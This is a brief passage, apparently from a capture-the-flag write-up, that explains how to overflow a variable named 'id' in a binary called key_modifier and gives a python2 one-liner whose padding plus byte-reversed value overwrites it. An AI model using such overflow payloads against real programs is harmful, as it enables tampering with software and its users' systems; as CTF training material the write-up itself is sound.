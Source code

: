 We can overflow the below variable `id`. Don't forget to reverse packets of bytes.

```bash
python2 -c 'print "A"*44 + "\x02\xb0\xad\x1b"' | ./key_modifier
```
